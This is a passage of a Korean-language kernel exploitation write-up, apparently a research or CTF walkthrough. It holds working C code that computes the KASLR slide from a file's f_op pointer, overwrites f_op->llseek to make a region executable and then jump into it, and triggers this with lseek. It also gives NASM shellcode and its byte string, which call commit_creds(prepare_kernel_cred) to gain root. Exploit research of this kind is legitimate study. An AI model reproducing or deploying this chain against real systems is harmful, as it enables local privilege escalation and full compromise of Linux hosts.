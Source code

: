     - `struct file` 구조체는 내부에 `f_path.dentry`, `f_inode`, `f_op` 등의 필드를 포함하고 있으며, 이들을 기준으로 식별이 가능합니다.
    - 특히 `f_op`는 함수 포인터 테이블을 가리키며, 이 값이 커널 이미지의 슬라이드된 주소 영역(`ex. 0xffffffff81xxxxx`)에 위치함을 이용해 슬라이드를 계산할 수 있습니다.
        - 커널 슬라이드: 커널 베이스가 KASLR에 의해 얼마나 밀렸는지(offset)를 의미하며, 커널 베이스 주소 및 함수 주소를 계산하는데 사용됨.
        - `f_op`의 하위 20비트는 `0x91700`로 고정이므로 해당 값이 맞는지 확인 후 if 문 수행.
        - 만약, `f_op`에 저장된 값이 `0x3291700`이라고 가정하면 슬라이드는 `0x3291700 - 0x2291700 = 0x1000000`으로 계산됨.
6. 함수 포인터를 쉘코드 주소로 덮어써 루트 권한으로 상승합니다.
    
    ```c
    // 쉘코드 영역을 실행 가능한 상태로 조작
    file_ax[0x108 >> 3] = 0x107b800L + kernel_slide; // f_op->llseek 포인터를 set_memory_x 주소로 조작
    file_ax[0xb0 >> 3] = file_base + 0x100L; // 가짜 fops 주소 설정
    lseek(findfd, 1, SEEK_SET);
    
    // 쉘코드를 실행하도록 조작
    file_ax[0x108 >> 3] = file_base + 0x110L; // f_op->llseek 포인터를 쉘코드 영역으로 조작
    memcpy(&file_ax[0x110 >> 3], shellcode, sizeof(shellcode));
    memcpy((char *)&file_ax[0x110 >> 3] + sizeof(shellcode) - 9, &kernel_slide, 8);
    lseek(findfd, 1, SEEK_SET);
    ```
    
    - `f_op->llseek` 포인터를 먼저 `set_memory_x()`로 설정해 쉘코드 영역을 실행 가능하게 만든 후, 해당 포인터를 쉘코드 주소로 바꿉니다.
    - 이후 `lseek()` 호출로 해당 함수 포인터를 실행하게 하여 쉘코드를 실행하고 루트 권한을 획득합니다.

## **📌** 쉘코드

다음은 커널 모드에서 루트 권한을 획득하기 위해 사용된 쉘코드입니다. 이는 `commit_creds(prepare_kernel_cred(0))` 시퀀스를 실행하며, 쉘코드는 `llseek` 함수 포인터를 덮어쓴 후 실행됩니다.

```nasm
BITS 64

push rbx

mov rbx, [rel kernelbase]

lea rdi, [rbx+0x2a0c980] ; init_task
lea rax, [rbx+0x10bc400] ; prepare_kernel_cred
call rax

mov rdi, rax
lea rax, [rbx+0x10bc170] ; commit_creds
call rax

pop rbx
ret

kernelbase: dq 0x4141414141414141
```

이 쉘코드는 익스플로잇 코드에서 바이너리 형태로 삽입되며, 실행 시 현재 프로세스의 권한을 루트로 설정하게 됩니다.
```c
  const char shellcode[] = "SH\213\35\36\0\0\0H\215\273\200\311\240\2H\215\203\0\304\v\1\377\320H\211\307H\215\203p\301\v\1\377\320[\303AAAAAAAA";
  memcpy(&file_ax[0x110 >> 3], shellcode, sizeof(shellcode));
  memcpy((char *)&file_ax[0x110 >> 3] + sizeof(shellcode) - 9, &kernel_slide, 8);
```

